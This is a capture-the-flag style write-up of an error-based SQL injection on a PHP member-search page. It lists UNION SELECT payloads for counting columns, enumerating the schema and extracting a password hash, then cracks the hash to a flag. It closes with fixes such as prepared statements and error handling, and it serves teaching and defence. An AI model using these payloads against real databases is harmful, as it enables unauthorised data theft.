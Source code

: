 # Error-Based SQL Injection Vulnerability

## 🎯 Overview
This vulnerability demonstrates an error-based SQL injection attack where the application exposes database errors and allows extraction of sensitive information through SQL error messages.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=member`
- **Attack Vector**: SQL Injection via member search
- **Database Version**: 5.5.44-0ubuntu0.12.04.1
- **Database Name**: Member_Sql_Injection
- **Vulnerable Table**: users

## ⚔️ Exploitation Process

### 1. Column Enumeration
```sql
# Determine number of columns using ORDER BY
1 order by 1 -- Success
1 order by 2 -- Success
1 order by 3 -- Error
# Result: Query uses 2 columns
```

### 2. Database Information Gathering
```sql
# Get database version
1 union all select 1,version()
Result: 5.5.44-0ubuntu0.12.04.1

# Get database name
1 union all select 1,database()
Result: Member_Sql_Injection
```

### 3. Table and Column Enumeration
```sql
# Get table names
1 union all select 1,group_concat(table_name) 
from Information_schema.tables 
where table_schema=database()
Result: users

# Get column names
1 union all select 1,group_concat(column_name) 
from Information_schema.columns 
where table_name=0x7573657273
Result: user_id,first_name,last_name,town,country,planet,Commentaire,countersign
```

### 4. Data Extraction
```sql
# Get comments
1 union all select 1,group_concat(Commentaire,0x0a) from users
Result: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

# Get encrypted password
1 union all select 1,group_concat(countersign,0x0a) from users
Result: 5ff9d0165b4f92b14994e5c685cdce28
```

### 5. Password Cracking Process
1. MD5 Hash: `5ff9d0165b4f92b14994e5c685cdce28`
2. Decrypted: `FortyTwo`
3. Lowercase: `fortytwo`
4. SHA256: 
```bash
echo -n fortytwo | shasum -a 256
```

### Attack Result
**Flag**: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## 🛡️ Security Issues Identified
1. SQL error messages exposed
2. No input validation
3. No prepared statements
4. Direct database error display
5. Weak password storage

## 🔒 Recommended Security Fixes

### 1. Implement Prepared Statements
```php
# Use PDO with prepared statements
public function searchMember($term) {
    $stmt = $this->db->prepare("
        SELECT first_name, last_name 
        FROM users 
        WHERE first_name LIKE :term
    ");
    $stmt->execute(['term' => "%{$term}%"]);
    return $stmt->fetchAll();
}
```

### 2. Input Validation
```php
function validateInput($input) {
    return preg_replace('/[^a-zA-Z0-9\s]/', '', $input);
}
```

### 3. Error Handling
```php
try {
    $result = $db->query($sql);
} catch (PDOException $e) {
    error_log($e->getMessage());
    return 'An error occurred';
}
```

### 4. Security Measures Checklist
- [ ] Use prepared statements
- [ ] Implement input validation
- [ ] Hide database errors
- [ ] Use secure password storage
- [ ] Implement proper error handling
- [ ] Set up WAF rules
- [ ] Regular security audits

## 📝 Best Practices

### Query Security
1. Always use prepared statements
2. Validate all user input
3. Limit database user privileges
4. Use proper error handling
5. Implement query timeouts

### Error Handling Configuration
```php
// Production error handling
ini_set('display_errors', 0);
ini_set('log_errors', 1);
error_reporting(E_ALL);
ini_set('error_log', '/var/log/php-errors.log');
```

## 📚 Additional Resources
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PHP PDO Documentation](https://www.php.net/manual/en/book.pdo.php)
- [SQL Injection Attack Prevention Guide](https://www.acunetix.com/websitesecurity/sql-injection/)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.